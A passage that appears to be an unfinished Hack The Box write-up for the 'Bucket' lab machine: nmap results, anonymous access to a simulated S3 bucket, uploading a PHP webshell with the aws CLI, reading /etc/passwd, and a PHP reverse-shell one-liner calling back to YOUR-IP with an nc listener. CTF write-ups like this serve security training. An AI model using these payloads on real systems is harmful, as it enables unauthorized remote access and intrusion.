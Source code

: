 # Hackthebox - Bucket

![Bucket](../.res/HTB-Bucket.png)

- [Box on HTB](https://app.hackthebox.com/machines/283)

- Linux

## Nmap

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp open  http    Apache httpd 2.4.41
|_http-title: Did not follow redirect to http://bucket.htb/
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.99 seconds
```

- We need to add this to our etc/hosts `10.10.10.212 bucket.htb`

## Port 80

First we need to launch burp in order to keep what we browse in our proxy history.  

We land here when accessing `http://bucket.htb/`  

![Landing page](../.res/2023-07-16-14-19-41.png)  

There's a reference to an s3 bucket here  

![s3 bucket reference](../.res/2023-07-16-14-33-30.png)  

We can add a this line to our `/etc/hosts` `10.10.10.212 bucket.htb s3.bucket.htb`

Now when accessing the image we find interesting headers in our burp history  

```http
x-amz-request-id: 2523F45736DE9BCD
x-amz-id-2: MzRISOwyjmnup2523F45736DE9BCD7/JypPGXLh0OVFGcJaaO3KW/hRAqKOpIEEp
```

This seems to simulate an aws bucket  
We can create a profile with this command we do not need to put valid keys `aws configure --profile htb-bucket`  

We are now able to list the content of the remote machine  
![list content](../.res/2023-07-16-15-00-32.png)  

Let's see what we have in adserver  

![adserver](../.res/2023-07-16-15-06-57.png)  

Let's download the files to our local machine to inspect them  

![Get files](../.res/2023-07-16-15-11-44.png)  

When browsing in the website we noticed that it was hosted on Apache. What could be interesting is to see if we could upload a php shell using the access we have on the bucket.  
Let's try this.  
We first try a simple php webshell. And cp it to our target  
`aws --endpoint-url=http://s3.bucket.htb s3 cp webshell.php s3://adserver`  
It works but our files get deleted pretty quickly.  
![webshell](../.res/2023-07-16-15-26-50.png)  
I still managed to get passwd file to see the users  

![passwd](../.res/2023-07-16-15-30-08.png)  

We have 2 users root and roy  

```txt
root:x:0:0:root:/root:/bin/bash
roy:x:1000:1000:,,,:/home/roy:/bin/bash
```

Let's try to get a reverse shell

This php code should work  

```php
<?php exec('/bin/bash -c \"bash -i >& /dev/tcp/YOUR-IP/1234 0>&1 \"');
?>
```

We set up a listener `sudo rlwrap nc -lnvp 1234`

And we get a shell as www-data  

![shell](../.res/2023-07-16-15-35-17.png)  

We will still need to make a lateral movement to get the user because we can not see the user.txt file for now.  

## COMING SOON